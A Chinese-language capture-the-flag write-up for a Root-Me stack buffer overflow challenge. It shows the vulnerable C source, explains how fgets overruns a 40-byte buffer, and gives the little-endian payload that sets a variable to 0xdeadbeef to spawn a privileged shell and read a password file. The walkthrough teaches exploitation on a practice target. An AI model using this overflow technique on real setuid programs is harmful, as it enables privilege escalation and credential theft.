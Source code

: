 # CTF-Solving-Reports
　[[Root-Me](https://www.root-me.org/)] [[App-System](https://www.root-me.org/en/Challenges/App-System/)] [[ELF x86 - Stack buffer overflow basic 1](https://www.root-me.org/en/Challenges/App-System/ELF32-Stack-buffer-overflow-basic-1)] [[解题报告](http://exp-blog.com/2019/01/14/pid-3002/)]

------

水题。

登录靶机后，在当前目录发现 3 个文件：

- .passwd ： 明显是目标文件，但是还没有权限打开
- ch13 ： 由 ch13.c 编译而成的脚本文件，且其 owner 具备 S 位权限
- ch13.c ： ch13 脚本的源文件，只是让我们看一下源码，知道其作用是当变量 `check==0xdeadbeef` 时，就帮当前用户进行提权

![](http://exp-blog.com/wp-content/uploads/2019/01/3856ff7daeb8b82f7a1fe2236c322c20.png)

那么这题的切入点就在于如何令变量 `check` 的值变成 `0xdeadbeef` 实现当前用户提权，再读取 `.passwd` 文件。

首先来分析一下源码（分析要点我用注释进行标记了）：

```cpp
#include <stdlib.h>
#include <stdio.h>
 
/*
gcc -m32 -o ch13 ch13.c -fno-stack-protector
*/
 
 
int main()
{
 
  int var;
  int check = 0x04030201;		// 初始值是方便让我们对比有没有成功修改了 check 的值
  char buf[40];		// 注意到 数组buf 与 变量check 是相邻的，即它们的内存地址是连续的
 
  // 数组buf 长度只有 40，但这行代码却从标准输入流读取 45 个字符
  // 明显是在暗示可以通过 内存溢出 的方法覆写 变量check 的值
  fgets(buf,45,stdin);
 
  // 这两行输出是让我们确认 内存溢出 的结果的，真贴心
  printf("\n[buf]: %s\n", buf);
  printf("[check] %p\n", check);
 
  if ((check != 0x04030201) && (check != 0xdeadbeef))
    printf ("\nYou are on the right way!\n");
 
  if (check == 0xdeadbeef)
   {
     printf("Yeah dude! You win!\nOpening your shell...\n");
     system("/bin/dash");
     printf("Shell closed! Bye.\n");
   }
   return 0;
}
```

为了可以准确地通过 **内存溢出** 覆写变量 `check` ，首先需要知道 `fgets` 的特性，这是 API 说明：

```cpp
// fgets 会从  stream 读取 n-1 个字符存储到 s 指针指向的内存块，最后末尾自动补 \0
// 若 stream 的前 n-1 个字符中有换行符 \n，则读取到 \n （包括 \n），最后末尾自动补 \0
// 读取字符的数量只取决于这两个条件，与 s 指向的内存区（如数组）的长度无关
char *fgets 会从 (char *restrict s, int n, FILE *restrict stream);
```

回到这题，数组 `buf` 的长度是 40，而 `fgets` 读取的字符长度是 45，则可以构造如下的 payloads 先测试一下：

`0000000000000000000000000000000000000000abcd`

其中前 40 个字符 `0` 是用于填充数组 `buf` 的，后 4 个字符 ` abcd` 才是利用内存溢出覆写到变量 `check` 的真正的攻击载荷。

执行命令 `./ch13` 运行脚本，再输入这个 payloads ，最后按下回车输入 `\n` ，发现变量 `check` 的值被覆写了。

![](http://exp-blog.com/wp-content/uploads/2019/01/bfb1576511c42f7f717d49f203586e43.png)

进一步分析变量 `check` 的值，是 `0x64636261`，转换成 ASCII 码就是 `dcba`， 而所输入的 payloads 是 `abcd` ，顺序刚好相反。至此就有足够条件可以构造真正的 payloads 了。

从 `ch13.c` 的源码可以知道，变量 `check` 的目标值是 `0xdeadbeef` ，转换成 ASCII 就是 `Þ­¾ï` 。从测试 payloads 知道，顺序要逆转，因此真正的 payloads 就是：

`0000000000000000000000000000000000000000ï¾­Þ`

执行命令 `./ch13` 运行脚本，然后输入这个 payloads ，最后按下回车输入 `\n` ，发现变量 `check` 的值被成功覆写成 `0xdeadbeef` ， 同时也提权成功。

此时执行命令 `cat .passwd` 成功得到密码，完成挑战。

![](http://exp-blog.com/wp-content/uploads/2019/01/f0bfe09aa65aa00c570e8f21afc80f25.png)

------

## 版权声明

　[![Copyright (C) 2016-2019 By EXP](https://img.shields.io/badge/Copyright%20(C)-2006~2019%20By%20EXP-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------

